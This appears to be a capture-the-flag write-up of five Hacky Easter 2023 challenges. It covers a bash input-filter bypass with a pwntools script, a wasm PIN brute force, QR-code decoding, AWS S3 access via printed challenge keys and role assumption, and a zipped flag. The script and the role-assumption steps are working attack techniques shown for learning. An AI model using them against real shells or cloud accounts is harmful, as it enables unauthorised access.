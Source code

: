 = [HE23.22] Crash Bash

image::level6/challenge22.jpg[,300,float="right"]

== Intro
Can you crash the bash?

The password is `B4sh_br0TH3rs`

Connect using `nc ch.hackyeaster.com 2303`

Note: The service is restarted every hour at x:00.

=== Hint
  Some characters are forbidden, in the whole string you enter.

== Solution
Logging into the app, we are presented with a bash prompt:

	_ nc ch.hackyeaster.com 2303
	Welcome to Crash Bash!
	To get the flag, call /printflag.sh with the password!
	Enter "q" to quit.
	----------------------
	crashbash$

Playing around a bit, we find that inputs are rejected if lower case caracters are entered, but upper case and `$`, `{`, `}` are allowed.  So we have to bypass the character filters.

After some thought, we see that we can use some special variables to create lower case characters:

	crashbash$ ${PWD}
	/bin/bash: line 1: /tmp/opskmwiyffljiklvblrmkkezwcgzwmnn: Is a directory
	crashbash$

So by using the variables `$PWD` and `$TERM`, we can get -- with some luck --
to execute `set` and get the whole environment which in turn will allow us to
execute `/printflag.sh B4sh_br0TH3rs`.  Since I am prone mistyping, write a
short script to get the flag (shamelessly stolen from the pwnlib template):

[source,python]
----
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

host = args.HOST or 'ch.hackyeaster.com'
port = int(args.PORT or 2303)

def start(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    return io


def chars_at(var, pos, l=1):
    return f'${{{var}:{pos}:{l}}}'


def get_var(var):
    print(io.recvuntil(b'crashbash$ '))
    s = f'${{{var}}}'
    io.sendline(s.encode('ascii'))
    ret = io.recvuntil(b'\n')
    ret = ret.decode('ascii').split(': ')[2]
    log.info(ret)
    return ret


def get_char(chars, c):
    if c in 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 ':
        return c
    for k,v in chars.items():
        if c in v:
            for j in range(len(v)):
                if v[j] == c:
                    return chars_at(k,j,1)
    log.error(f'character {c} not found in {chars}')
    return ''

def build_command(chars, target):
    return ''.join(get_char(chars, c) for c in target)

# we can only enter uppercase letters as commands, so 
# get some characters via SHELL variables.

io = start()

chars = {var: get_var(var) for var in ['PWD', 'TERM']}
log.info(f'{chars}')

# now try to run set
s = build_command(chars, 'set')
print(io.recvuntil(b'crashbash$ '))
log.info(s)
io.sendline(s.encode('ascii'))
ret = io.recvuntil(b'crashbash$ ').decode('ascii')
log.info(f'{ret}')
chars2 = {}
for l in ret.split('\n'):
    v = l.split('=')
    if v[0] == 'BASH_VERSION': # is surrounded by '
        chars2[v[0]] = v[1][1:-1]
    elif len(v) == 2: 
        chars2[v[0]] = v[1]

log.info(f'{chars2}')

flag = build_command(chars2, '/printflag.sh B4sh_br0TH3rs')
log.info(flag)
io.sendline(flag.encode('ascii'))
io.interactive()
----

Since `$PWD` changes from run to run, we might have to try multiple times
before `set` can be executed, but if successful, we get the flag:

    [*] Switching to interactive mode
    Congrats, here's your flag:
    he2023{gr34t_b4sh_succ3ss!}


= [HE23.23] Code Locked

image::level6/challenge23.jpg[,300,float="right"]

== Intro
Open the code lock at http://ch.hackyeaster.com:2311 to get your 🚩 flag.

== Solution
We are presented with a number pad to enter an 8-digit code.  The code is verified using a function implemented as wasm.  If the code is correct, we get the flag.  The important code from ``main.js`` is:

[source,javascript]
----
function checkWASM(code) {
    const pinArray = new Int32Array(wasmMemory.buffer, 0, 26);
    encode(code, pinArray);
    wasmCheck(pinArray.byteOffset, pinArray.length);
    return decode(pinArray);
}

function play(file) {
    a = new Audio(file);    
    a.play();
}

function press(input) {
    if (input == "*") {
        play("delete.mp3");
        $("#yellow").show(0).delay(200).hide(0);
        code = "";
    } else if (input == "#") {
        msg = checkWASM(code);
        if (msg.startsWith("he2023")) {
            play("success.mp3");
            audio]bSuccess.play();
            $("#green").show(0).delay(5000).hide(0);
        } else {
            play("fail.mp3");
            $("#red").show(0).delay(1000).hide(0);
        }
        setTimeout(function() {alert(msg);}, 200)
    } else {
        $("#yellow").show(0).delay(200).hide(0);
        play("click.wav");
        code = (code + input).substr(-8, 8);
    }
}
----

``code`` is a string representing the eight digits needed, so we can try all possibilities:

[source,javascript]
----
for(tmp=0 ; tmp<=99999999; tmp++) {
  code = ("00000000"+tmp).slice(-8);
  msg = checkWASM(code);
  if (msg.startsWith("he2023")) {
    console.log(code);
    console.log(msg);  
    break;
  }
  if(tmp % 100000 == 0) {
    console.log(code);
  }
}
----

This prints the PIN 29660145 and the flag ``he2023{w3b4553m81y_15_FUN}``.

image::level6/wasm_fun.png[,300,]

= [HE23.24] Quilt

image::level6/challenge24.jpg[,300,float="right"]

== Intro
A warm, sunny day - perfect weather for a picnic! But what's that - did the bunnies really bring the nice quilt from the living room as a blanket?

image::level6/quilt.png[,300,float="right"]

=== Hint
Cut a beautiful quilt like this into pieces? A shame, but maybe necessary!

== Solution
The quilt has to be cut into single QR-codes, decoded and then made sense of.
It turns out that each code contains only a single character.  When analysed
in the right order and printed as a text, we get

  Hello! Do you love quilts? Well... I am pretty sure I do! They are so
  pretty.. my oh my, but look at me getting lost in idle thoughts! You are
  here for an egg, right? I bet you are. Where did I put it? Ah, here
  he2023{this_is_th... No, sorry, that is not it. That was an old one, can
  you believe it? This maybe? he2023{I_need_this_egg_for_breakfast}. Nooo..
  sorry! But I am fairly sure this is it, right here
  he2023{Qu1lt1ng_is_quit3_relaxing!} Yeah, that should be it. Sorry. I am
  rambling, but it is so nice to have a visitor appreciating my quilts! They
  are a lot of work, and I love all of them. Please, do not leave so soon.
  How about a cookie? Would you like a cookie? Hey, where are you going?

The program uses PIL and pyzbar

[source,python]
----
import itertools
from PIL import Image
from pyzbar.pyzbar import decode


def getTiles():
    imgs = []
    with Image.open('quilt.png') as img:
        x, y = img.size 
        h = 69
        for iy, ix in itertools.product(range(0, y, h), range(0, x, h)):
            cropped = img.crop((ix,iy,ix+h, iy+h))
            imgs.append(cropped)
    return imgs


if __name__ == '__main__':
    imgs = getTiles()
    for img in imgs:
        # data = decode(Image.fromarray(img))
        data = decode(img)
        if len(data) > 0:
            foundText = data[0].data.decode()
            print(f'{foundText}', end='')
----


= [HE23.25] Cats in the Bucket

image::level6/challenge25.jpg[,300,float="right"]

== Intro
There is a bucket full of cat images. One of them contains a flag. Go get it!

* Bucket: ``cats-in-a-bucket``
* Access Key ID: ``AKIATZ2X44NMCEQW46PL``
* Secret Access Key: ``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``

=== Hints
What exactly does the bucket allow?

== Solution

  _ aws --profile he2023 configure
  AWS Access Key ID [None]: AKIATZ2X44NMCEQW46PL
  AWS Secret Access Key [None]: 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
  Default region name [None]:
  Default output format [None]:

Now we can list the bucket and see that there are four files, but the last file ``cat4.jpg`` cannot be downloaded.  Listing the bucket policiy, we see that this file can only be downloaded using a special role:


  _ aws s3 ls s3://cats-in-a-bucket/  --profile he2023
  2022-10-09 17:23:46      83709 cat1.jpg
  2022-10-09 17:23:48      92350 cat2.jpg
  2022-10-09 17:23:47     119214 cat3.jpg
  2022-10-09 17:23:47      87112 cat4.jpg
  
  _ aws s3 ls s3://cats-in-a-bucket/cat4.jpg cat4.jpg  --profile he2023
  
  Unknown options: cat4.jpg
  
  _ aws s3 cp s3://cats-in-a-bucket/cat4.jpg cat4.jpg  --profile he2023
  fatal error: An error occurred (403) when calling the HeadObject operation: Forbidden
  _ aws s3api get-bucket-policy --bucket cats-in-a-bucket  --profile he2023 --query Policy --output text >policy.json

[source, json]
----
{
  "Version":"2008-10-17",
  "Statement":[
    {
      "Effect":"Allow",
      "Principal":{"AWS":"arn:aws:iam::261640479576:user/misterbuttons"},
      "Action":["s3:ListBucket","s3:GetBucketPolicy"],
      "Resource":"arn:aws:s3:::cats-in-a-bucket"},
    {
      "Effect":"Allow",
      "Principal":{"AWS":"arn:aws:iam::261640479576:user/misterbuttons"},
      "Action":"s3:GetObject",
      "Resource":[
    				"arn:aws:s3:::cats-in-a-bucket/cat1.jpg",
    				"arn:aws:s3:::cats-in-a-bucket/cat2.jpg",
    				"arn:aws:s3:::cats-in-a-bucket/cat3.jpg"]},
    {
      "Effect":"Allow",
      "Principal":{"AWS":"arn:aws:iam::261640479576:role/captainclaw"},
      "Action":"s3:ListBucket",
      "Resource":"arn:aws:s3:::cats-in-a-bucket"},
    {
      "Effect":"Allow",
      "Principal":{"AWS":"arn:aws:iam::261640479576:role/captainclaw"},
      "Action":"s3:GetObject",
      "Resource":"arn:aws:s3:::cats-in-a-bucket/cat4.jpg"}
  ]
}
----

So we have to assumt the role of captainclaw to get at the last file.  Add a few lines to ``~/.aws/credentials`` and Bob's your uncle:

  [he2023a]
  role_arn = arn:aws:iam::261640479576:role/captainclaw
  source_profile = he2023

  _ aws --profile he2023a sts get-caller-identity
  {
      "UserId": "AROATZ2X44NMIIMXFXIG7:botocore-session-1680938233",
      "Account": "261640479576",
      "Arn": "arn:aws:sts::261640479576:assumed-role/captainclaw/botocore-session-1680938233"
  }
  
  
  _ aws s3 cp s3://cats-in-a-bucket/cat4.jpg  cat4.jpg --profile he2023a
  download: s3://cats-in-a-bucket/cat4.jpg to .\cat4.jpg

image::level6/cat4.jpg[,300,]

``he2023{r0l3_assum3d_succ3ssfuLLy}```

= [HE23.26] Tom's Diary

image::level6/challenge26.jpg[,300,float="right"]

== Intro
Tom found a flag and wrote something about it in his diary.

Can you get the flag?


  // // // // // // // // // // // // // // // // // // // // // //
  // // // // // // // // // // // // // // // // // // // // // //
  
  Tom's Diary
  
  \/\ \\\/ / \/\ /\\ /\ \/\ //\ /\/ /\// //\/ /\// /\/ //\ /\\\ \\/\
  \/\ \\\/ / \/\ /\\ /\ \/\ //\ /\/ /\// //\/ /\// /\/ //\ /\\\ \\/\
  
  Dear diary,
  
  today I found a secret flag.
  
  I need to keep it safe here:
  
  UEsDBAoACQAAAJJEK1X6oNHsKgAAAB4AAAAIABwAZmxhZy50eHRVVAkAA/OBHWOR
  gR1jdXgLAAEE9QEAAAQUAAAArGnVXoZRCLYaWU8HFSFo+dWfh2yfPa868sNqxTVP
  xqHrGTs3dIVbxR9WUEsHCPqg0ewqAAAAHgAAAFBLAQIeAwoACQAAAJJEK1X6oNHs
  KgAAAB4AAAAIABgAAAAAAAEAAACkgQAAAABmbGFnLnR4dFVUBQAD84EdY3V4CwAB
  BPUBAAAEFAAAAFBLBQYAAAAAAQABAE4AAAB8AAAAAAA=
  
  \\ \\ \\ \\ \\ \\ \\ \\ \\ \\ \\ \\ \\ \\ \\ \\ \\ \\ \\ \\ \\ \\
  \\ \\ \\ \\ \\ \\ \\ \\ \\ \\ \\ \\ \\ \\ \\ \\ \\ \\ \\ \\ \\ \\

=== Hint
Neither brute force nor word lists are necessary.

== Solution
The "safe" is a base64 encoded zip file that can be turned into ``safe.zip`` using Cyber Chef (From Base64 --> Extract Files).  Of ocurse the file is password protected and the password is probably coded in the diary.

  \/\ \\\/ / \/\ /\\ /\ \/\ //\ /\/ /\// //\/ /\// /\/ //\ /\\\ \\/\

This looks suspicious and is "Tom Tom Code" that
https://www.dcode.fr/tom-tom-code happily decodes into ``slashesforprofit``.

Using unzip we get the flag ``he2023{sl4sh3s_m4k3_m3_h4ppy}``
slashesforprofit
